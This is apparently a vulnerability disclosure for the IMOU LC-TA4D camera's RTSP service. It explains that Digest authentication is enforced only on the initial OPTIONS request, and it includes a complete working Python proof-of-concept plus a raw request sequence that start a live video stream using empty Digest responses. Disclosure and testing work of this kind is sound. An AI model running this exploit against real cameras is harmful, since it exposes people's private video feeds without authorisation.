





# IMOU LC-TA4D - Improper Authentication of RTSP SETUP and PLAY

### Information

Vendor: Hangzhou Huacheng Network Technology Co., Ltd. (IMOU / Lechange / 乐橙)

Affected Product: IMOU LC-TA4D (LC-TA4D-H10MOS) network camera

Affected Firmware Version: 3.010.0000000.1.R.250704

Vendor Homepage: [https://www.imou.com/](https://www.imou.com/)

Vendor Contact Information: [security@imou.com](mailto:security@imou.com) (Imou Security Response Center: https://www.imou.com/en/isrc/37)



Affected Component: RTSP service (TCP/554), Digest authentication handling


### Description

An improper authentication vulnerability exists in the RTSP service of IMOU LC-TA4D firmware 3.010.0000000.1.R.250704. Digest authentication is enforced only on the initial OPTIONS request of a connection; SETUP and PLAY are not covered by per-request validation. After the initial OPTIONS succeeds, DESCRIBE, SETUP and PLAY requests carrying an empty or invalid Digest response are accepted with 200 OK, and PLAY starts the live RTP video stream. This allows an attacker who can reuse an authenticated RTSP connection or obtain a valid session to access the live video without valid per-request credentials.

### Exploit Demo

The RTSP service uses Digest authentication and enforces a valid Digest response on the initial OPTIONS. After that request succeeds, the server does not revalidate the Digest response for the media-establishment methods. The PoC performs the following sequence:

1. Send an unauthenticated OPTIONS and receive the 401 challenge.
2. Send an authenticated OPTIONS and receive 200 OK.
3. Send DESCRIBE with `response=""` and receive 200 OK.
4. Send SETUP for trackID=0 with `response=""` and receive 200 OK with a Session.
5. Send PLAY with `response=""` and receive 200 OK, followed by live RTP video.



The packet list shows the RTSP status sequence and the RTP packets after PLAY:



The TCP stream shows the SETUP and PLAY requests with `response=""`, the corresponding 200 OK responses, and the interleaved RTP data; the terminal output above shows the same empty response on DESCRIBE:



Live video received over the stream:



The same authentication gap was confirmed for other Digest-bearing requests after the connection was authenticated: DESCRIBE with an empty or incorrect response returned 200; SETUP_1 with an empty, incorrect or missing Authorization returned 200; SETUP_2, PLAY and TEARDOWN with an empty response returned 200. The authentication decision is applied to the initial OPTIONS; SETUP and PLAY are not covered by per-request validation and can start the live stream after that request succeeds.

A 51-second screen recording of the full reproduction is provided as [04_reproduction_video.mp4](./images/04_reproduction_video.mp4). It shows the 401 challenge, the authenticated OPTIONS, the empty-response DESCRIBE/SETUP/PLAY, and the live RTP video.


### POC

The following standalone Python 3 PoC reproduces the representative trigger. Replace `TARGET_IP`, `USERNAME` and `PASSWORD` with the test device values. The trigger request is defined explicitly in the code.

```python
#!/usr/bin/env python3
"""IMOU LC-TA4D RTSP authentication bypass PoC.

Hardcoded target: 192.168.1.100:554 (placeholder).
The server uses Digest authentication. It validates the Digest response only
on the initial OPTIONS request. After that request succeeds, DESCRIBE, SETUP
and PLAY with an empty Digest response are accepted, and PLAY starts the live
RTP video stream.
Run this file directly from VS Code.
"""

import hashlib
import re
import socket
import time

TARGET_IP = "192.168.1.100"  # replace with the target camera IP
TARGET_PORT = 554
USERNAME = "REDACTED"  # replace with the account username
PASSWORD = "REDACTED"  # replace with the account password

REQUEST_INTERVAL = 1.0
RESPONSE_WAIT = 10.0
RTP_WAIT = 10.0
USER_AGENT = "LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)"

BASE = "rtsp://%s:%d/cam/realmonitor?channel=1&subtype=0" % (TARGET_IP, TARGET_PORT)
STREAM_URI = BASE + "/"

# Request 1: normal OPTIONS. 401 is the expected Digest challenge.
BASELINE_OPTIONS = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 2\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

# Request 2: authenticated OPTIONS. The response is filled at runtime.
AUTH_OPTIONS_TEMPLATE = (
    "OPTIONS " + BASE + " RTSP/1.0\r\n"
    "CSeq: 3\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "\", response=\"__RESPONSE__\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n\r\n"
)

# Request 3: the trigger. DESCRIBE carries an empty Digest response.
TRIGGER_DESCRIBE_TEMPLATE = (
    "DESCRIBE " + BASE + " RTSP/1.0\r\n"
    "CSeq: 4\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + BASE + "\", response=\"\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Accept: application/sdp\r\n\r\n"
)

# Request 4: SETUP also carries an empty Digest response.
SETUP_TEMPLATE = (
    "SETUP " + BASE + "/trackID=0 RTSP/1.0\r\n"
    "CSeq: 5\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + STREAM_URI + "\", response=\"\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)

# Request 5: PLAY also carries an empty Digest response.
PLAY_TEMPLATE = (
    "PLAY " + STREAM_URI + " RTSP/1.0\r\n"
    "CSeq: 6\r\n"
    "Authorization: Digest username=\"" + USERNAME + "\", realm=\"__REALM__\", nonce=\"__NONCE__\", "
    "uri=\"" + STREAM_URI + "\", response=\"\"\r\n"
    "User-Agent: " + USER_AGENT + "\r\n"
    "Session: __SESSION__\r\n"
    "Range: npt=0.000-\r\n\r\n"
)


def md5_hex(text):
    return hashlib.md5(text.encode("latin-1")).hexdigest()


def digest_response(username, password, realm, nonce, method, uri):
    ha1 = md5_hex("%s:%s:%s" % (username, realm, password))
    ha2 = md5_hex("%s:%s" % (method, uri))
    return md5_hex("%s:%s:%s" % (ha1, nonce, ha2))


def render(template, realm, nonce, response):
    return (template.replace("__REALM__", realm)
                    .replace("__NONCE__", nonce)
                    .replace("__RESPONSE__", response))


def show_payload(payload):
    print("  send:")
    for line in payload.rstrip("\r\n").split("\r\n"):
        marker = "   <-- empty Digest response" if 'response=""' in line else ""
        print("    | " + line + marker)


class RtspConnection:
    def __init__(self, host, port, timeout):
        self.sock = socket.create_connection((host, port), timeout=timeout)
        self.sock.settimeout(timeout)
        self.buffer = b""

    def close(self):
        try:
            self.sock.close()
        except OSError:
            pass

    def _fill(self):
        chunk = self.sock.recv(4096)
        if not chunk:
            raise ConnectionError("RTSP connection closed")
        self.buffer += chunk

    def _read_until(self, marker):
        while marker not in self.buffer:
            self._fill()
        index = self.buffer.index(marker) + len(marker)
        data, self.buffer = self.buffer[:index], self.buffer[index:]
        return data

    def _read_exact(self, size):
        while len(self.buffer) < size:
            self._fill()
        data, self.buffer = self.buffer[:size], self.buffer[size:]
        return data

    def read_response(self):
        head = self._read_until(b"\r\n\r\n")
        lines = head.decode("latin-1").split("\r\n")
        status = lines[0]
        headers = {}
        for line in lines[1:]:
            if not line:
                continue
            name, _, value = line.partition(":")
            headers[name.strip().lower()] = value.strip()
        length = int(headers.get("content-length", "0"))
        body = self._read_exact(length) if length else b""
        return status, headers, body

    def send_request(self, label, payload):
        print("\n" + label)
        show_payload(payload)
        time.sleep(REQUEST_INTERVAL)
        self.sock.sendall(payload.encode("latin-1"))
        try:
            status, headers, body = self.read_response()
        except socket.timeout:
            print("  -> TIMEOUT: no RTSP response within %.1fs" % RESPONSE_WAIT)
            return None, {}, b""
        except (OSError, ValueError) as exc:
            print("  -> %s: %s" % (type(exc).__name__, exc))
            return None, {}, b""
        print("  <- " + status)
        return status, headers, body

    def read_rtp(self, channels, timeout):
        self.sock.settimeout(timeout)
        deadline = time.monotonic() + timeout
        while time.monotonic() < deadline:
            try:
                if self.buffer.startswith(b"$") and len(self.buffer) >= 4:
                    size = int.from_bytes(self.buffer[2:4], "big")
                    while len(self.buffer) < 4 + size:
                        self._fill()
                    channel = self.buffer[1]
                    packet = self.buffer[4:4 + size]
                    self.buffer = self.buffer[4 + size:]
                    if channel in channels and size >= 12 and (packet[0] >> 6) == 2:
                        return channel, packet
                    continue
                if self.buffer.startswith(b"RTSP/1.0"):
                    self.read_response()
                    continue
                self._fill()
            except socket.timeout:
                return None, None
        return None, None


def main():
    print("=" * 72)
    print("IMOU LC-TA4D RTSP authentication bypass PoC")
    print("  target: %s:%d" % (TARGET_IP, TARGET_PORT))
    print("  trigger: DESCRIBE with an empty Digest response")
    print("=" * 72)

    conn = RtspConnection(TARGET_IP, TARGET_PORT, RESPONSE_WAIT)
    try:
        status, headers, _ = conn.send_request(
            "[1/5] Baseline OPTIONS (no Authorization)", BASELINE_OPTIONS)
        if not status or not status.startswith("RTSP/1.0 401"):
            print("Expected a 401 Digest challenge; aborting.")
            return
        challenge = headers.get("www-authenticate", "")
        realm_match = re.search(r'realm="([^"]+)"', challenge)
        nonce_match = re.search(r'nonce="([^"]+)"', challenge)
        if not realm_match or not nonce_match:
            print("Digest challenge is missing realm or nonce; aborting.")
            return
        realm = realm_match.group(1)
        nonce = nonce_match.group(1)
        print("  realm: " + realm)
        print("  nonce: " + nonce)
        print("  note: 401 is the normal Digest challenge.")

        valid_response = digest_response(
            USERNAME, PASSWORD, realm, nonce, "OPTIONS", BASE)
        auth_options = render(AUTH_OPTIONS_TEMPLATE, realm, nonce, valid_response)
        status, _, _ = conn.send_request(
            "[2/5] Authenticated OPTIONS (valid Digest)", auth_options)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Authenticated OPTIONS did not return 200; aborting.")
            return

        print("\n" + "=" * 72)
        print(">>> TRIGGER: [3/5] DESCRIBE with empty Digest response <<<")
        print(">>> The server accepts response=\"\" and returns 200 OK. <<<")
        print("=" * 72)
        trigger = render(TRIGGER_DESCRIBE_TEMPLATE, realm, nonce, "")
        status, _, body = conn.send_request("[3/5] TRIGGER DESCRIBE", trigger)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("Trigger did not return 200; aborting.")
            return
        print("  accepted with empty Digest response (SDP bytes: %d)" % len(body))

        setup = render(SETUP_TEMPLATE, realm, nonce, "")
        status, headers, _ = conn.send_request(
            "[4/5] SETUP with empty Digest response", setup)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("SETUP did not return 200; aborting.")
            return
        session = headers.get("session", "").split(";")[0].strip()
        print("  Session: " + session)

        play = render(PLAY_TEMPLATE, realm, nonce, "").replace("__SESSION__", session)
        status, _, _ = conn.send_request(
            "[5/5] PLAY with empty Digest response", play)
        if not status or not status.startswith("RTSP/1.0 200"):
            print("PLAY did not return 200; aborting.")
            return

        print("\nWaiting for interleaved RTP video on channel 0 ...")
        channel, packet = conn.read_rtp((0,), RTP_WAIT)
        if packet:
            print("CONFIRMED: live RTP video received after empty Digest responses")
            print("  channel=%d bytes=%d RTP version=%d" %
                  (channel, len(packet), packet[0] >> 6))
        else:
            print("No RTP packet observed within %.0fs." % RTP_WAIT)
            print("The 200 OK responses above already show that the empty")
            print("Digest responses were accepted.")
    finally:
        conn.close()


if __name__ == "__main__":
    main()

```

### MSG

The complete representative request sequence follows. `192.168.1.100` is a placeholder for the target address; `<realm>`, `<nonce>`, `<valid response>` and `<session>` are dynamic values. The DESCRIBE request with `response=""` is the trigger; the two OPTIONS requests precede it, and SETUP and PLAY follow it.

```text
OPTIONS rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

OPTIONS rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0 RTSP/1.0
CSeq: 3
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0", response="<valid response>"
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)

DESCRIBE rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0 RTSP/1.0
CSeq: 4
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0", response=""
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Accept: application/sdp

SETUP rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0/trackID=0 RTSP/1.0
CSeq: 5
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0/", response=""
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Transport: RTP/AVP/TCP;unicast;interleaved=0-1

PLAY rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0/ RTSP/1.0
CSeq: 6
Authorization: Digest username="<username>", realm="<realm>", nonce="<nonce>", uri="rtsp://192.168.1.100:554/cam/realmonitor?channel=1&subtype=0/", response=""
User-Agent: LibVLC/3.0.24 (LIVE555 Streaming Media v2026.06.24)
Session: <session>
Range: npt=0.000-
```

### Credit

CRfuzzer
